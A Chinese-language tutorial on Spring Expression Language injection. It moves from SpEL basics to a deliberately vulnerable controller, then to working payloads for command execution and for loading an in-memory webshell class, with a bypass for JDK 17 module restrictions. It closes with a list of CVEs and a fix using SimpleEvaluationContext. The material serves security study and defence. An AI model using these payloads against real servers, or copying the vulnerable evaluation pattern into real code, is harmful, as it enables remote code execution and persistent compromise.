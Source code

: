 # 0x01 What Is SpEL

SpEL：Spring Expression Language 一种表达式语言，支持在运行时查询和操作对象图，类似于EL表达式。

SpEL 的诞生是为了给 Spring 社区提供一种能够与Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。

SpEL基本语法：
SpEL使用 `#{...}`作为定界符，大括号内被视为SpEL表达式，里面可以使用运算符，变量，调用方法等。使用 `T()` 运算符会调用类作用域的方法和常量，如`#{T(java.lang.Math)}`返回一个java.lang.Math类对象

`#{}`和`${}`的区别：

* `#{}` 用于执行SpEl表达式，并将内容赋值给属性
* `${}` 主要用于加载外部属性文件中的值

SpEL常用在三个地方。

1. Value注解
   （注：这个类要通过依赖注入才能使Value注解生效，直接new对象是不行的）

   ```java
   package com.example.demo1.bean;
   
   import org.springframework.beans.factory.annotation.Value;
   import org.springframework.context.annotation.PropertySource;
   import org.springframework.stereotype.Component;
   
   @Component
   @PropertySource({"classpath:/configure.properties"})
   public class User {
       @Value("${spring.user.name}")
       public String userName; // 值来自application.properties
       @Value("${home.dorm}")
       public String address; // 值来自configure.properties(放在resources文件夹下)
       @Value("#{T(java.lang.Math).random()}")
       public double age;
       @Value("#{systemProperties['os.name']}")
       public String sys; // 注入操作系统属性
   }
   ```

   ```xml
   // configure.properties
   home.dorm=Room402,Unit4,Building3,No.34.LousyLoad
   // application.properti
   spring.user.name=Taco
   ```

   输出如下：
   `User{userName='Taco', address='Room402,Unit4,Building3,No.34.LousyLoad', age=0.5913714334107036, sys='Windows 10'}`

2. XML

   ```xml
   <bean id="Book" class="com.example.bean">
   	<property name="author" value="#{表达式}">
   </bean>
   ```

3. Expression接口

   ```java
   @Test
   public void spelTest() {
       ExpressionParser parser = new SpelExpressionParser();
       Expression expression = parser.parseExpression("('Hello '+'SpEL').concat(#end)");
       EvaluationContext context = new StandardEvaluationContext();
       context.setVariable("end", "!");
       System.out.println(expression.getValue(context));
   }
   ```

   输出`Hello SpEL!`

# 0x02 Way To Attack

实际情况下，一般都是基于上面第三种SpEL的使用场景出现的漏洞。
下面简单分析一下SpEL在求表达式值的过程

> 1.创建解析器 new SpelExpressionParser()
> 2.解析表达式 parseExpression(your_expression)
> 3.构造上下文 new StandardEvaluationContext() 默认为这个
> 4.求值 expression.getValue(context)

漏洞利用前提

> 1.服务器接收用户输入的表达式
> 2.表达式解析之后调用了getValue
> 3.使用StandardEvaluationContext作为上下文对象

```java
@RestController
public class SpELController {
    @GetMapping("spel")
    public String spel(@RequestParam(name="cmd")String cmd) {
        System.out.println("Hello SpEL!!!");
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(cmd);
        Object obj = expression.getValue();
        return obj.toString();
    }
}
```

这段代码中，可注入的点在请求参数cmd
访问`http://localhost:8080/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%27calc%27)`
成功弹出计算器

# 0x03 Injection Tricks

一些trivial的payload

```java
new java.lang.ProcessBuilder(new String[]{"caslc"}).start()
```

```java
T(java.lang.Runtime).getRuntime().exec("calc")
```

命令执行带返回结果的：

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("whoami").start().getInputStream())).readLine()
```

```java
new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream(), "GBK").useDelimiter("xxx").next()
```

利用js引擎可以实现更加复杂的操作，如注入内存马

```java
public static void main(String[] args) throws Exception {
    byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
    String s = Base64.getEncoder().encodeToString(bytes);
    String cmd = "T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(\"" + makeJsDefinedClass("EvilInterceptor", s) + "\")";
    System.out.println(cmd);
}

public static String makeJsDefinedClass(String classname, String encoded) {
    return "var data = '" + encoded + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var cls = java.lang.Class.forName('sun.nio.ch.Util');" +
        "var method = cls.getDeclaredMethod('unsafe');" +
        "method.setAccessible(true);" +
        "var unsafe = method.invoke(cls);" +
        "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();" +
        "var evil = unsafe.defineClass('" + classname + "', bytes, 0, bytes.length, classLoader, null);" +
        "evil.newInstance();";
}
```

这里利用的是`Unsafe`去`defineClass`加载字节码

实际上Spring框架中`org.springframework.cglib.core.ReflectUtils`就提供了一系列反射有关的方法，其中就包括了字节码加载`defineClass`。

```java
byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('EvilInterceptor',T(org.springframework.util.Base64Utils).decodeFromString('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()";
System.out.println(cmd);
```

高版本JDK（>=9）引入了命名模块机制，`java.*`下的非公开变量和方法不能被其他模块直接访问，JDK11还只会提示warning，而在JDK17中会强制开启，直接报错

上面的payload执行后会报错

> java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int,java.security.ProtectionDomain) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @635eaaf1

![image-20240517132913363](./../.gitbook/assets/image-20240517132913363.png)

`java.lang.ClassLoader#defineClass`不是公开方法，无法被其他模块访问

```java
byte[] bytes = ClassPool.getDefault().get("org.springframework.expression.EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.EvilInterceptor',T(java.util.Base64).getDecoder().decode('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName('org.springframework.expression.ExpressionParser'))";
System.out.println(cmd);
```

# 0x04 CVE To Study

* CVE-2022-22980 Spring Data MongoDB SpEL表达式注入
* CVE-2022-22963 SpringCloud Function SpEL表达式注入
* CVE-2022-22947 Spring Cloud Gateway 远程代码执行

# 0x05 Patch

`SimpleEvaluationContext`、`StandardEvaluationContext` 是 SpEL提供的两个 `EvaluationContext`

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用

用`SimpleEvaluationContext`替换默认的`StandardEvaluationContext`，就能有效防止恶意SpEL表达式的执行。

